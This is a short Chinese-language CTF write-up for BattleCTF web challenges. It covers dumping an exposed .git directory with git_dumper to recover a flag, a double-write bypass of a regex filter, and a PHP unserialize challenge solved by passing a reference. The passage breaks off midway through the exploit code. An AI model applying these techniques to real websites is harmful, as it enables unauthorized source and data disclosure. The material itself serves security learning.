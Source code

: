 
# web
### Own reality
不知道考点很难受

---

#git
git泄露,都把这茬忘了

```shell
#git dump
python .\git_dumper.py http://chall.battlectf.online:8082/.git/ ./aaaa
# 查看日志
git log
# 恢复flag.txt
git checkout a1346a3 -- flag.txt
# decode,文件内容为._,替换.为0,_为1,然后from binary

```
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230628174142.png)

### Civilization
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230624200433.png)
正则匹配没有递归,双写绕过
### Fa
```php
<?php
    include("flag.php");

    if(isset($_GET['source'])){
        highlight_file(__FILE__);
    }
    
    class africa {
        var $boknn;
        var $du;
    }
   
    if (isset($_GET['fa'])) {
        $vodoo = $_GET['fa'];
       
        $fa = unserialize($vodoo);
       
        if ($fa) {
            $fa->du=$flag;
            if ($fa->du === $fa->boknn)
                echo "Congratulation! You've got the best interpretation: <b>".$fa->du."</b>";
            else
                echo "Oh no...";
        }
        else echo "you dey smoke igbo?";
    }
    include("home.html");

?>
```
传入变量的引用即可伪造flag
```php
<?php
class africa {
    var $boknn;
```